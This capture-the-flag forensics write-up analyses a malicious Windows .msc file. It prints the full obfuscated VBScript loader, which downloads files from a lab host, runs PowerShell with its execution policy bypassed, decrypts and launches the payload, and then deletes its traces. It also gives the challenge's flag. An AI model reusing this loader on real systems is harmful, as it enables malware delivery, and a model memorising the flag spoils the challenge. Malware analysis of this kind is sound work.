




# Binary Badresources

## Challenge Overview

**Category:** Forensics  

**Description:**

A malicious syndicate from the far reaches of the Frontier has deployed a weapon disguised as a harmless gift. This weapon lies dormant until activated, compromising the defensive line and allowing invaders to take control of the stronghold. Defenders must reverse-engineer and decode the weapon's mechanism to disable it and protect the Frontier Cluster.

We are provided with a file named `wanted.msc`.

### Step 1: Initial Analysis

The challenge file, `wanted.msc`, was inspected to identify any suspicious behavior or obfuscation. The file appeared to be a combination of XML and embedded VBScript. The use of obfuscation indicated the presence of concealed functionality, suggesting that the file might be malicious. To proceed, we needed to decode the obfuscated VBScript.

### Step 2: Decoding Obfuscation

To decode the obfuscated content, we utilized the **Obfuscator.io Deobfuscator**, a tool designed to reverse obfuscation in VBScript. This tool was particularly helpful in revealing the hidden script. The decoded content contained a large loop that built a string using a combination of `Asc` (to get the ASCII value) and `chr` (to convert it back to characters). This string was then decrypted through a series of arithmetic operations.

Here is a snippet of the decoded VBScript:
<p align='center'>
  
</p>
Below is a snippet of the decoded content:

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1)):Next:Execute TpHCM:
    ]]>
    </ms:script>
</stylesheet>
```
### Step 3: Reverse Engineering the Payload

The embedded script revealed an obfuscated string, which was then decoded using **CyberChef**. The string contained URLs that pointed to potentially malicious resources:

<p align='center'>
  
</p>

```c#
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
```
### Step 4: Decrypting the Files

The next step was to retrieve and decrypt the files referenced in the URLs. We suspected that these files were encrypted using XOR encryption with `csrss.dll` as the key. To decrypt the files, we implemented the following Python script that uses XOR decryption:

```python
def xor_decrypt(file_path, key_path, output_path):
    with open(file_path, "rb") as f, open(key_path, "rb") as k:
        file_content = bytearray(f.read())
        key = bytearray(k.read())
        key_len = len(key)
        
        for i in range(len(file_content)):
            file_content[i] ^= key[i % key_len]
        
    with open(output_path, "wb") as out:
        out.write(file_content)

# Decrypt the files
xor_decrypt("csrss.exe", "csrss.dll", "csrss_decrypted.exe")
xor_decrypt("csrss.exe.config", "csrss.dll", "csrss_config_decrypted")
xor_decrypt("wanted.pdf", "csrss.dll", "wanted_decrypted.pdf")
```
### Step 5: Analyzing Decrypted Files

After decryption, the `csrss.exe.config` file revealed an additional URL:

```plaintext
http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json
```

Upon downloading and analyzing the file, we found that it contained a **C# executable**. The next step was to decompile this executable to understand its contents.

### Step 6: Decompiling the C# Executable

To decompile the C# executable, we used **CodeMerx**. The decompiled content revealed the following key findings:

- The presence of **Base64-encoded data**.
- The use of **AES encryption** with a hard-coded key.

Here is an image showing the decompiled content:





### Step 7: Extracting the Flag

Upon further investigation, we downloaded the file located at:

```plaintext
http://windowsupdate.htb/ec285935b46229d40b95438707a7efb2282f2f02.xml
```

By running the `strings` command on the XML file, we successfully extracted the flag:

```
HTB{mSc_1s_b31n9_s3r10u5ly_4buSed}
```

---

## Conclusion

In this challenge, we successfully reversed the obfuscated VBScript, decoded the hidden URLs, decrypted the files, and analyzed the C# executable to uncover the final flag. Each step required careful analysis, reverse engineering, and cryptographic techniques, leading to the successful completion of the challenge.
